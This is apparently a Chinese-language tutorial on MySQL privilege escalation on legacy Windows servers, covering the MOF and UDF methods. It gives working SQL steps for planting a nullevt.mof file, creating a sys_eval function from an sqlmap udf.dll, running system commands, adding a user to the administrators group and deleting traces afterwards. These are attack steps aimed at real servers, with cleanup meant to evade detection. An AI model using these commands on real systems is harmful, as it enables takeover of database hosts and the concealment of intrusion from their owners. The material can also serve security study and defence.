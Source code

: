 **mysql的三种提权方式：**

1. udf提权
2. mof提权
3. 启动项提权

#### MOF提权

* 原理：利用了c:/windows/system32/wbem/mof/目录下的**nullevt.mof**文件。该文件每几秒会**执行**一次，向其中写入**cmd命令**使其被执行

* 利用条件

1. windows<= 2003
2. 对c:/windows/system32/wbem/mof/目录有读写权限
3. 可以时间写mof文件到相应目录，如：数据库允许外联，有webshell，有可写sql注入

因为需要有写文件权限(into outfile)，所以可用到的环境很少

* 提权方法

>1. 上传mof文件
>2. 执行load_file和into dumpfile将文件导出到指定位置
>    `select load_file('mof目标路径') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof'`
>
>nullevt.mof文件的内容
>![](https://storage.tttang.com/media/attachment/2022/10/29/5b6b0a85-f8ae-48be-9f1d-6745b4226db6.png)

#### UDF提权

* 原理：UDF(user defined function)用户自定义函数通过添加新函数，对mysql服务器进行功能扩充，将mysql账号转化为system权限。
* 方式：通过root权限导出udf.dll到系统目录下，使udf.dell调用cmd

* 利用条件：

1. windows 2000\XP\2003
2. 账号对mysql有插入和删除权限
3. 对应目录有写权限

>mysql版本对应的udf.dll导出路径：
>
>| 数据库版本 | 操作系统     | udf.dll导出路径                         |
>| ---------- | ------------ | --------------------------------------- |
>| <5.0       | 所有操作系统 | 路径随意                                |
>| <=5.1      | windows2003  | c:\windows\system32\udf.dll             |
>| <=5.1      | windows2000  | c:\winnt\system32\udf.dll               |
>| >5.1       | 所有操作系统 | mysql**安装目录下的lib\plugin\udf.dll** |
>
>mysql安装目录查询语句： `select @@basedir`

* udf 提权步骤

1. select user();\version();\basedir()判断数据库版本、用户和安装目录
2. 如果\lib\plugin目录不存在，可以利用NTFS ADS流创建文件夹
   `select 'xxx' into dumpfile 'mysql目录\\lib:$INDEX_ALLOCATION';`
   `select 'xxx' into dumpfile 'mysql目录\\lib\plugin:$INDEX_ALLOCATION';`
   或者是webshell直接创建
3. 导入udf.dll文件。该文件在sqlmap/data/udf/mysql/目录下有，只是该dll文件是通过异或编码的，可以使用sqlmap/extra/cloak.py解密。
4. 上传udf.dll到指定目录。有webshell就直接传，传不了就select load_file()。
5. 创建自定义函数。`create function **sys_eval** returns string soname 'udf.dll';`
   必须要创建.dll文件中存在的函数才行，可以用十六进制编辑器打开udf.dll文件慢慢找函数，也可以用dumpbin.exe查看。soname指向动态链接库
6. 执行高权限指令：`select sys_eval('whoami');`
   将该用户提升为管理员权限：`select sys_eval("net localgroup administrators ichunqiu /add")`
7. 清除痕迹
   `drop function sys_eval;`
   `delete from mysql.func where name="sys_eval";`
